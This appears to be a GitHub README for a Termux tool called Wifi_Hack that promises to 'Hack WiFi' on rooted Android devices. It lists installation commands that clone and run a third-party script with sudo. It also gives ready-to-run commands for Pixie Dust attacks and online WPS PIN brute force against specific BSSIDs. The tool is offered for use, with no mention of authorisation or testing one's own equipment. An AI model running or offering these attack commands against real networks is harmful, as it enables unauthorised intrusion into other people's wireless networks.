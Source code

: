## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/ImErrorX/ExWiFi
$ cd ExWiFi
$ chmod +x ErrorX.py
$ sudo python ErrorX.py --help
```

#### Example : `sudo python ErrorX.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ErrorX.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ErrorX.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ErrorX.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
